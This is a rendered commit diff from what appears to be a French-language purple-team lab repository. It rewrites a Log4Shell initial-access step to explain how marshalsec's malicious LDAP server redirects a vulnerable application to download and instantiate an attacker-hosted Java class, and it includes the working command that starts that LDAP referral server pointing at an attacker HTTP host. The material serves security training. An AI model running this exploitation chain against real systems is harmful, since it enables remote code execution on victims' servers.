

Before and after one commit to ismardn/ecorp-purple-team-lab, a Markdown page: red-team-kill-chain/01-initial-access-log4shell.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs(red-team): clarify marshalsec LDAP referral mechanism

````diff
--- a/red-team-kill-chain/01-initial-access-log4shell.md
+++ b/red-team-kill-chain/01-initial-access-log4shell.md
@@ -49,7 +49,7 @@ public class Exploit {
 
 **Séquence d'exploitation :**
 
-1.  **Démarrage du serveur LDAP malveillant (Terminal 1) :** Ce serveur agit comme un routeur, redirigeant la requête JNDI initiale vers le serveur HTTP hébergeant la charge utile.
+1.  **Démarrage du serveur LDAP malveillant (Terminal 1) :** Suite à l'injection, l'application vulnérable va tenter de résoudre l'adresse LDAP fournie. L'utilitaire `marshalsec` est utilisé pour instancier un serveur LDAP malveillant qui ne renvoie pas un objet direct, mais une référence JNDI. Il agit comme un routeur : il intercepte la requête de la victime et lui renvoie une directive lui ordonnant d'aller télécharger et instancier la classe Java hébergée sur le serveur HTTP de l'attaquant.
     ```bash
     ~/opt/jdk8u502-b07/bin/java -cp ~/opt/marshalsec/target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.150:8000/#Exploit"
     ```
````
